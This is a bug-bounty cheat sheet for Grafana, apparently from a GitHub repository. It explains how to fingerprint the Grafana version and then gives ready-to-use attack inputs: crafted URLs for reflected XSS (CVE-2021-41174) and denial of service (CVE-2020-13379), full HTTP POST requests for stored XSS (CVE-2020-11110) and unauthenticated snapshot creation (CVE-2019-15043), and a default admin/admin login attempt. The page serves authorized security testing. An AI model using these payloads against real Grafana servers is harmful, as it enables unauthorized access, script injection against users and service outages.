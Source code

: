 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Grafana.md#introduction)

What would you do if you came across a website that uses Grafana?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Grafana.md#how-to-detect)

Try to HTTP request to `https://example.com/login` and there is a form login

1. Find the related CVE by checking grafana version

- How to find the grafana version

Try to request to `https://example.com/login` and then check the source code. You will find the version in JSON body `"isEnterprise":false,"latestVersion:"9.0.0","version":"8.3.2"` so 8.3.2 is the grafana version. If you found outdated grafana version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-18548/product_id-47055/Grafana-Grafana.html)

Some example CVE:

- CVE-2021-41174 (Reflected XSS)

```
https://example.com/dashboard/snapshot/%7B%7Bconstructor.constructor('alert(1)')()%7D%7D?orgId=1
```

- CVE-2020-13379 (Denial of Service)

```
https://example.com/avatar/%7B%7Bprintf%20%22%25s%22%20%22this.Url%22%7D%7D
```

- CVE-2020-11110 (Stored XSS)

```
POST /api/snapshots HTTP/1.1
Host: example.com
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: {{BaseURL}}
content-type: application/json
Connection: close

{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```

- CVE-2019-15043 (Grafana Unauthenticated API)

```
POST /api/snapshots HTTP/1.1
Host: example.com
Connection: close
Content-Length: 235
Accept: */*
Accept-Language: en
Content-Type: application/json

{"dashboard":{"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}
```

2. Default Credentials

```
Try to login using admin as username and password
```

3. Signup Enabled

```
https://example.com/signup
```


